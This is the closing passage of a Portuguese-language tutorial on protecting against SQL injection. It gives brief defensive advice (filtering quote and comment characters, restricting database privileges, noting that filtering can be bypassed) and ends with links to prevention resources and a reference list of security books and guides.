Há algumas abordagens para se proteger de SQL Injection, mas basicamente essas consistem em analisar a expressão SQL antes de executá-la no servidor. Por exemplo, isso pode ser feito analisando e removendo caracteres normalmente utilizados em ataques SQLi, tais como: ``'``, ``"``, ``#``, etc. Também é recomendável restringir o nível de acesso do usuário de realiza os SQLs.

Entretanto, ataques SQLi mais elaborados podem burlar este tipo de proteção, desta forma é necessário ver qual solução é mais adequada para cada sistema (linguagem de programação, banco de dados, etc).

Para mais informações a respeito de como se proteger de ataques SQL Injection, veja os livros apresentados nas Referências deste texto e em sítios como:
* <https://www.hacksplaining.com/prevention/sql-injection>;
* <https://security.berkeley.edu/education-awareness/how-protect-against-sql-injection-attacks>
* <https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html>
* <https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/>

## Referências
* PRAKHAR PRASAD. Mastering Modern Web Penetration Testing. Birmingham: Packt Publishing, 2016. ISBN 9781785284588. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1409187&lang=pt-br&site=eds-live&scope=site>. Acesso em: 3 abr. 2023.

* JUSTIN CLARKE. SQL Injection Attacks and Defense. Waltham, Mass: Syngress, 2012. v. 2nd edISBN 9781597499637. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=490339&lang=pt-br&site=eds-live&scope=site>. Acesso em: 3 abr. 2023.

* <https://guide.offsecnewbie.com/5-sql>

* <https://www.computersecuritystudent.com/SECURITY_TOOLS/SQL_INJECTION/lesson10/index.html>

* <https://refabr1k.gitbook.io/oscp/web/sql-injection>

* <https://tunnelshade.in/blog/post-data-sql-injection-using-sqlmap/>

* <https://www.cyberciti.biz/faq/how-to-show-list-users-in-a-mysql-mariadb-database/>
